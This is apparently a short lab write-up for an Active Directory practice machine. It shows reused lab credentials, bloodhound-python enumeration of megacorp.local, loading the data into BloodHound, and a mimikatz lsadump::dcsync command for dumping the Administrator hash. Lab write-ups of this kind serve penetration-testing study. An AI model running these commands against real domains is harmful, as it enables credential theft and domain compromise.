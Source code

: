 because we already have creds from the last box
`sandra:Password1234!`


we use bloodhound.py to gather our data to then import into bloodhound:
https://github.com/fox-it/BloodHound.py

must run
```bash
sudo bloodhound-python -d megacorp.local -u sandra -p "Password1234!" -gc pathfinder.megacorp.local -c all -ns 10.10.10.30
```

This will save json files to your current dir

---

Start Bloodhound

start neo4j first
`neo4j start`
start bloodhound
`bloodhound`

you can drop the .json files from earlier into the gui

---

**Common analysis queries in Bloodhound:**
	- Find all Domain Admins
	- Find Shortest Path to Domain Admins
	- Find Principals with DCSync Rights

---

Here we look at Find Principals with DCSync Rights

There is a special relation with 

We can see that the `svc_bes` has `GetChangesAll` privileges to the domain. This means that the account has the ability to request replication data from the domain controller, and gain sensitive information such as user hashes. 

With both GetChanges and GetChangesAll privileges in BloodHound, you may perform a dcsync attack to get the password hash of an arbitrary principal using mimikatz: `lsadump::dcsync /domain:testlab.local /user:Administrator`

